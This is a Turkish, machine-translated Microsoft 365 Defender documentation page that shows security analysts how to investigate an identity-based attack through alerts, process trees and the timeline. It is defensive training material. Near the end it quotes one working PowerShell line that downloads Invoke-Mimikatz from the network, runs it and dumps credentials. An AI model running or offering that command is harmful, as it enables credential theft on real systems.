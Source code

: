 ```yaml
---
title: Kimlik tabanlı bir saldırı örneği
description: Kimlik tabanlı bir saldırının örnek çözümlemesinde adım adım ilerler.
keywords: olaylar, uyarılar, araştırma, korelasyon, saldırı, makineler, cihazlar, kullanıcılar, kimlikler, kimlik, posta kutusu, e-posta, 365, microsoft, m365, olay yanıtı, siber saldırı
search.product: eADQiWindows 10XVcnh
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords:
- NOCSH
ms.author: dansimp
author: dansimp
ms.localizationpriority: medium
manager: dansimp
audience: ITPro
ms.collection:
- M365-security-compliance
- m365initiative-m365-defender
ms.topic: conceptual
search.appverid:
- MOE150
- MET150
ms.technology: m365d
ms.openlocfilehash: 883c0480b5f8cb35abfe59458d35c8d1274b8493
ms.sourcegitcommit: bdd6ffc6ebe4e6cb212ab22793d9513dae6d798c
ms.translationtype: MT
ms.contentlocale: tr-TR
ms.lasthandoff: 03/08/2022
ms.locfileid: "63327545"
---
```

# <a name="example-of-an-identity-based-attack"></a>Kimlik tabanlı bir saldırı örneği

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**Aşağıdakiler için geçerlidir:**
- Microsoft 365 Defender

Identity için Microsoft Defender, kötü amaçlı girişimlerin, organizasyon kimliklerini tehlikeye atarak algılamaya yardımcı olabilir. Identity için Defender, Microsoft 365 Defender ile tümleştiri olduğundan, güvenlik analistleri şüpheli Netlogon ayrıcalık yükseltme girişimleri gibi Identity için Defender'dan gelen tehditlere karşı görünürlük sağlar.

## <a name="analyzing-the-attack-in-microsoft-defender-for-identity"></a>Saldırıyı Identity için Microsoft Defender'da çözümleme

Microsoft 365 Defender, analistlerin olaylar sayfasının Uyarılar sekmesindeki algılama kaynağıyla **uyarıları** filtrelemelerine olanak sağlar. Aşağıdaki örnekte algılama kaynağı, Kimlik için Defender olarak **filtre uygulanmıştır**. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="Identity için Defender algılama kaynağını filtreleme örneği.":::

Şüpheli **üstteki karmser saldırı** uyarısının seçili olması, Bulut Uygulamaları için Microsoft Defender'da daha ayrıntılı bilgi görüntüleyen bir sayfaya gider. Her zaman bir uyarı veya saldırı hakkında daha fazla bilgi edinmek için Bu uyarı  türü hakkında daha fazla bilgi alın öğesini seçerek [](/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002) saldırının açıklamasını ve düzeltme önerilerini okuyabilirsiniz.
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="Şüpheli üstteki karmser saldırı uyarısı örneği."::: 

## <a name="investigating-the-same-attack-in-microsoft-defender-for-endpoint"></a>Uç Nokta için Microsoft Defender'da aynı saldırıyı araştırıyor

Alternatif olarak, bir analist uç nokta üzerinde etkinlik hakkında daha fazla bilgi edinmek için Uç Nokta için Defender'ı kullanabilir. Olay sırasından olayı seçin ve sonra Uyarılar **sekmesini** seçin. Buradan, algılama kaynağını da tanımlayabilirler. EDR olarak etiketlenmiş algılama kaynağı, Uç Nokta için Defender olan Uç Nokta Algılama ve Yanıt'ın açılımıdır. Buradan, analist EDR tarafından algılanan bir uyarıyı seçer.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="Uç Nokta için Defender'da Uç Nokta Algılama ve Yanıt örneği."::: 

Uyarı sayfasında, etkilenen cihaz adı, kullanıcı adı, otomatik soruşturma durumu ve uyarı ayrıntıları gibi çeşitli bilgiler görüntülenir. Uyarı hikayesinde, işlem ağacının görsel bir gösterimi yer almaktadır. İşlem ağacı, uyarıyla ilgili üst ve alt işlemlerin hiyerarşik bir gösterimidir.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="Uç Nokta için Defender'da uyarı işlemi ağacı örneği."::: 

Her işlem, ek ayrıntıları görüntülemek için genişletilebilir. Bir analistin göreceği ayrıntılar kötü amaçlı bir betiğin parçası olarak girilen gerçek komutlar, giden bağlantı IP adresleri ve diğer yararlı bilgilerdir.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="Uç Nokta için Defender'daki işlem ayrıntıları örneği.":::
 
Zaman çizelgesinde **gör'i seçerek**, analist güvenlik güvenliğinin tam zamanı belirlemek için daha da detaya iner. 

Uç Nokta için Microsoft Defender birçok kötü amaçlı dosya ve betik algılanabilir. Bununla birlikte, giden bağlantılar, PowerShell ve komut satırı etkinliklerinin pek çok yasal kullanımı nedeniyle, kötü amaçlı bir dosya veya etkinlik oluşturana kadar bazı etkinlikler izin olarak kabul edilir. Bu nedenle, zaman çizelgesini kullanmak analistlerin ortak dosya sistemi ve kullanıcı etkinliğine yönelik saldırının özgün kaynağını veya saatlerini belirlemek üzere uyarıyı çevresindeki etkinlikle ilgili bağlama eklemesine yardımcı olur. 

Bunu yapmak için, bir analist uyarı algılama zamanında (kırmızı renkle) başlayabilir ve kötü amaçlı etkinliğin başladığı özgün etkinliğin ne zaman başlayacağını belirlemek için geriye doğru kaydırır. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="Uyarı algılama zamanında başlama örneği."::: 

Windows Update bağlantıları, Windows Güvenilen Yazılım etkinleştirme trafiği, diğer Microsoft sitelerine yaygın bağlantılar, üçüncü taraf İnternet etkinliği, Microsoft Uç Nokta Yapılandırma Yöneticisi etkinliği ve diğer şüpheli etkinliklere karşı yaygın etkinlikleri anlamak ve ayırt etmek önemlidir. Bunu başarmanın bir yolu, zaman çizelgesi filtrelerini kullanmaktır. Analistin görüntülemek istemediklerini filtrelerlerken belirli etkinliği vurgulayan birçok filtre vardır. 

Aşağıdaki resimde, yalnızca ağ ve süreç olaylarını görüntülemek için filtrelenmiş analist. Bu, analistin Not Defteri'nin işlem ağacında da gördüğümüz IP adresiyle bağlantı kurduğu etkinliği çevreleyen ağ bağlantılarını ve süreçleri görmelerine olanak sağlar. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="Kötü amaçlı giden bağlantı yapmak için Not Defteri'nin nasıl kullanılmış olduğunu gösterir."::: 

Bu özel olayda, Not Defteri kötü amaçlı giden bağlantı yapmak için kullanılmıştır. Bununla birlikte, genellikle saldırganlar kötü amaçlı yük indirmek için iexplorer.exe bağlantısı kurmak için kullanır çünkü normalde iexplorer.exe işlemleri normal web tarayıcısı etkinliği olarak kabul edilir.

Zaman çizelgesinde bakıla diğer bir öğe, PowerShell'in giden bağlantılar için kullandığı öğe olabilir. Analist, kötü amaçlı dosyayı barındıran bir web sitesine `IEX (New-Object Net.Webclient)` giden bağlantı gibi komutların ve ardından da giden bağlantının olduğu başarılı PowerShell bağlantılarını elde eder. 

Aşağıdaki örnekte, PowerShell bir web sitesinden Mimikatz'i indirmek ve yürütmek için kullanılmıştır:

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
Analist, yalnızca PowerShell ile oluşturulan olayları görüntülemek için arama çubuğuna anahtar sözcüğü yazarak anahtar sözcükleri hızla arayabilir. 

## <a name="next-step"></a>Sonraki adım

Kimlik avı [soruşturması](first-incident-path-phishing.md) yoluna bakın.

## <a name="see-also"></a>Ayrıca bkz.

- [Olaylara genel bakış](incidents-overview.md)
- [Olayları yönetme](manage-incidents.md)
- [Olayları araştırma](investigate-incidents.md)
